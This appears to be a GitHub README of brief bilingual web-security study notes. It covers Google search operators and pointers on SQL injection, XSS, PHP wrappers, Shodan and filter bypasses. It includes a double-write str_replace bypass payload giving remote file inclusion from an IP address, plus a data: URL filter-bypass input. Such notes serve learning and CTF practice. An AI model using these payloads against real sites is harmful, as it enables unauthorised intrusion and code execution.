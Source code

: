 # web_security

##  the skill of how to google
* accurate search:`“CESIGN”`
* excludeing a word:`linux -ubuntu`
* site search:`site:cesign.com hello`
* related words:`~hello`
* the wildcard:`"hello *"`
* time ranges:`ubuntu 2008..2010`
* file type:`filetype:pdf how to learn`
* one world or the other:`ubuntu or linux`
* word definitions:`define:word`
* find the words you want in one webpage:`intext:word1 word2 word3`
* find the words you want in the title of one page (<title>hello</title>:like this):`intitle:word`
* find the cache data on the web:`cache:hdu.edu.cn`
* find the basic information of somwthing:`info:keyword`
* search the url contains the key word:`inurl:keyword`
* get all the url of one website:`site:url`
* find the page that has some connections with the url you give:`related:url`
* ? the way to use:`like a letter you don't know  eg:"I l?ve"`

## data协议
* 如果后台会过滤相应的字符并且没有转换（urldecode），可以用urlencode绕过

## 实战篇
* `加密方法 base64,rot13`
* `工具 chrome插件：http-header修改：modify headers`
* `验证码常有三种错误：(1）一个验证码可重复用，不过期；（2）验证码只能用一次，但后台清空后可以构造为空；`

## PHP伪协议
* [学习地址](http://www.lorexxar.cn/2016/09/14/php-wei/)

## 常识
* 使用str_replace函数是极其不安全的，因为可以使用双写绕过替换规则。
例如page=hthttp://tp://192.168.5.12/phpinfo.txt时，str_replace函数会将http://删除，于是page=http://192.168.5.12/phpinfo.txt，成功执行远程命令。

## sql盲注
* [学习地址](http://www.freebuf.com/articles/web/120985.html)
* `防注可以用PDO技术 [学习地址](http://www.jb51.net/article/56612.htm)`

## xss各种漏洞
* [学习地址(freebuf)](http://www.freebuf.com/articles/web/123779.html)

## shodan的使用
* [学习地址](https://cli.shodan.io/)

## data协议
* 可以通过urlencode然过一定的过滤，http:/asd.asd/?^%5f^=data:,hello
* ![](http://img.blog.csdn.net/20161027135341809)

## 宽字符注入
* [学习地址(freebuf)](http://blog.csdn.net/hw_henry2008/article/details/6736017)
